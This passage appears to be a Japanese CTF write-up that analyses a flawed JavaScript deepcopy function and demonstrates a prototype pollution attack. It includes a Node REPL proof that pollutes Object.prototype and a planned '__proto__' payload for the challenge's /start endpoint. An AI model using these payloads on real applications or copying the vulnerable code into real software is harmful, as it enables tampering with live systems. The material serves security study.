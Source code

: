 `util.js` から `deepcopy` という関数をインポートしてきて、`Maze` の `next` メソッド中で配列のディープコピーに使われています。実装を確認しましょう。

```javascript
function is_array(obj) {
    return obj !== null && typeof obj === 'object';
}

function __deepcopy_internal(result, array) {
    for (let index in array) {
        if (is_array(result[index]) && is_array(array[index])) {
            __deepcopy_internal(result[index], array[index]);
        } else {
            result[index] = array[index];
        }
    }
    return result;
}

/**
 * deepcopy: Clone an Array object
 */
function deepcopy(obj) {
    return __deepcopy_internal(new Array(), obj);
}

module.exports = {
    deepcopy: deepcopy
};
```

`is_array` という関数によって各要素が配列であるか確認した上で、再帰的にコピーしています。なぜ `Array.isArray` でなく独自に実装をしているのでしょうか。`is_array` の実装をよく見てみると、`obj instanceof Array` のような処理はなく、ただオブジェクトであるかどうかだけがチェックされていることがわかります。これなら `is_array({a: 123})` のようにオブジェクトを渡してしまっても `true` が返ってきてしまいます。

これを利用すれば Prototype Pollution ができるはずです。`deepcopy(JSON.parse('{"__proto__": {"hoge": 123}}'))` は `Array.prototype.hoge = 123` 相当ですし、`__deepcopy_internal` は再帰的に呼び出されるので `{"__proto__":{"__proto__": {"hoge": 123}}}` のようにすれば `Object.prototype` にもアクセスできるはずです。やってみましょう。

```
>node
Welcome to Node.js v14.1.0.
Type ".help" for more information.
> const { deepcopy } = require('./util.js');
undefined
> deepcopy(JSON.parse('{"__proto__":{"__proto__": {"hoge": 123}}}'))
[]
> hoge
123
> ({}).hoge
123
```

`Object.prototype.hoge` に `123` が代入され、`hoge` というプロパティが未定義の時にアクセスすると `123` が返ってくるようになりました。

これを使えば、`/start` への POST 時に `start` に `{0: 1, 1: 1, "__proto__": {"__proto__": {"heap": "abc"}}}` というようなオブジェクトを仕込んでおくことで、`Maze` の `next` が呼び出されたときに `Object.prototype.heap` に `abc` という文字列が代入されるはずです。
